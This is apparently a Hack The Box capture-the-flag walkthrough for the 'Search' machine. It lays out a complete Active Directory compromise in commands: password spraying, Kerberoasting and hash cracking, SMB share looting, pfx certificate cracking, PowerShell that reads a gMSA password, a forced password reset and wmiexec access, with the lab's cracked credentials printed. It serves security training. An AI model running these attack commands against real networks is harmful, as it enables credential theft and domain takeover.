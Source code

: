 # [Search](https://app.hackthebox.com/machines/search/)

```bash
nmap -p- --min-rate 10000 10.10.11.129 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,9389 10.10.11.129 -Pn 
```

![alt text](img/image-1.png)

From nmap scan results, I see that I need to add `search.htb`,`research.search.htb` domains into `/etc/hosts` file for resolving purposes.


Let's do `Directory Enumeration` via `gobuster` command.
```bash
gobuster dir -u http://10.10.11.129/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```

![alt text](img/image-22.png)

While opening web application, I see such thing.

![alt text](img/image-2.png)


While looking at images of web application closely , I mean `zoom`, I can see password on notebook.

![alt text](img/image-3.png)

Password: IsolationIsKey?


From above this password, I see person name as `Hope Sharp`. Let's genereate possible domain users via this username and lastname.
```bash
hope
sharp
h.sharp
hope.s
hope.sharp
hopesharp
```


Let's brute-force for these usernames via one password, means `Password Spray` attack.
```bash
crackmapexec smb 10.10.11.129 -u pos_usernames.txt -p IsolationIsKey? --continue-on-success
```

![alt text](img/image-4.png)


Success, we found credentials already.

hope.sharp:IsolationIsKey?


Via this domain user, let's do `Kerberoasting` attack by using `GetUserSPNs.py` script of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.11.129 search.htb/hope.sharp
```

![alt text](img/image-5.png)


Let's crack this hash via `hashcat` command.
```bash
hashcat -m 13100 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-6.png)

web_svc: @3ONEmillionbaby


Let's check this credentials via `crackmapexec` command.
```bash
crackmapexec smb 10.10.11.129 -u web_svc -p '@3ONEmillionbaby'
```

![alt text](img/image-7.png)


Let's look at `Domain Users` via script called `GetADUsers.py` of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -dc-ip 10.10.11.129 search.htb/web_svc:@3ONEmillionbaby -all
```

![alt text](img/image-8.png)



Let's parse this users via `space` delimeter.
```bash
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -dc-ip 10.10.11.129 search.htb/web_svc:@3ONEmillionbaby -all | cut -d " " -f1
```

After this, let's do `Password Spray` attack for these users for password `@3ONEmillionbaby` by using `crackmapexec` command.
```bash
crackmapexec smb 10.10.11.129 -u users.txt -p '@3ONEmillionbaby' --continue-on-success
```

![alt text](img/image-9.png)


Edgar.Jacobs: @3ONEmillionbaby

Let's check `SMB` shares via this credentials.
```bash
smbmap -H 10.10.11.129 -u Edgar.Jacobs -p '@3ONEmillionbaby'
```

![alt text](img/image-10.png)


Let's access to `RedirectedFolders$` share via `smbclient` command.
```bash
smbclient -U '10.10.11.129\Edgar.Jacobs' //10.10.11.129/RedirectedFolders$
```

![alt text](img/image-11.png)


While accessing to `SMB` share, I find `.xlsx` file and try to read this.

As this is also `compressed` files, we can `unzip` this.

![alt text](img/image-12.png)


I found already `SHA-512` hash value via salt of this from `sheet2.xml`.

![alt text](img/image-13.png)


I read passwords of users.

![alt text](img/image-14.png)


Let's check this usernames and passwords of them.
```bash
crackmapexec smb 10.10.11.129 -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18'
```

![alt text](img/image-15.png)


Via this user credentials, let's check `SMB` shares via `smbmap` command.
```bash
smbmap -H 10.10.11.129 -u Sierra.Frye -p '$$49=wide=STRAIGHT=jordan=28$$18'
```

![alt text](img/image-16.png)


Let's go into `SMB` share called `RedirectedFolders$` via this credentials.
```bash
smbclient -U '10.10.11.129\Sierra.Frye' //10.10.11.129/RedirectedFolders$
```

user.txt

![alt text](img/image-17.png)

![alt text](img/image-18.png)


On this user's `Downloads/backups` directory, I found `.pfx` and `.p12` files.

![alt text](img/image-19.png)


Let's download and convert them from their formats into `crackable` formats by using `pfx2john` command.

![alt text](img/image-20.png)

Let's crack them via `john` command.
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![alt text](img/image-21.png)


Cert's Password: misspissy

After this we can upload this certificates into our browser to see `Forbidden` pages of target, For example we can see `/staff` endpoint.

![alt text](img/image-23.png)

Now, we can see `/staff` endpoint.

![alt text](img/image-24.png)


We can access into here via our domain credentials. But I wrote `IP Address`, it doesn't connect that's why I wrote just `research` due to result of `crackmapexec` and it worked.

![alt text](img/image-25.png)


user.txt

![alt text](img/image-26.png)


Let's run `bloodhound-python` via our domain credentials.
```bash
bloodhound-python -u Sierra.Frye -p '$$49=wide=STRAIGHT=jordan=28$$18' -d search.htb -c All -ns 10.10.11.129
```

![alt text](img/image-27.png)


Let's run our commands to up `bloodhound`.
```bash
neo4j console
bloodhound
```

![alt text](img/image-28.png)


From this enumeration, I see that for `Sierra.Frye` user has privilege for `ReadGMSAPassword`

![alt text](img/image-29.png)



For abusing this, I looked at this [article](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)


Exploit code is such below.
```bash
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp
(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```


![alt text](img/image-30.png)

As we have already full control, we can reset passwords of some users.
```bash
$cred = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Dr4ks1234!' -force)} -Credential $cred
```

![alt text](img/image-31.png)


Let's join into machine via `wmiexec.py` script of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py 'search/tristan.davies:Dr4ks1234!@10.10.11.129'
```


root.txt

![alt text](img/image-32.png)